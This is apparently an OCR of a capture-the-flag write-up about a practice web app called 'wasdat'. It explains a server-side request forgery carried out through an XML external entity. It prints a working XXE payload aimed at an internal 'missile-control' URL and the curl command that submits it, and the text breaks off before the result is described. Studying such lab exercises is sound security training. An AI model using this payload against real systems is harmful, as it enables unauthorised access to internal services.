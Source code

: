 # Web Application Security
 
## Server-side Request Forgery:
### Old wasdat – XML external entity SSRF version
** Title: Launch missiles through old Wasdat with SSRF flaw in the backend.
** Description: This vulnerability combines XXE with SSRF. SSRF is a type of attack where an
attacker can make a server perform requests on their behalf, potentially bypassing security
controls and accessing resources that should be restricted.
** Steps to produce:
1. Navigate to http://wasdat.fi:8080.
2. Edit oldwasdat-exampe.xml- MALICIOUS XML document and include an external entity
declaration pointing to a resource that want to access, in this case want to access
‘http://missile-control:6666/launch-the-missiles’ on the server. As in the example below:
‘’<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://missile-control:6666/launch-the-missiles" >
]
>
<search>&xxe;</search>’’
3. Send the request to the server by the command:
curl -X POST http://wasdat.fi:8080/api/articles/custom-search -H "Content-Type:
text/xml" --data "@/home/kali/Downloads/example.xml"
4. we received a response as a flag which indicate we finish our
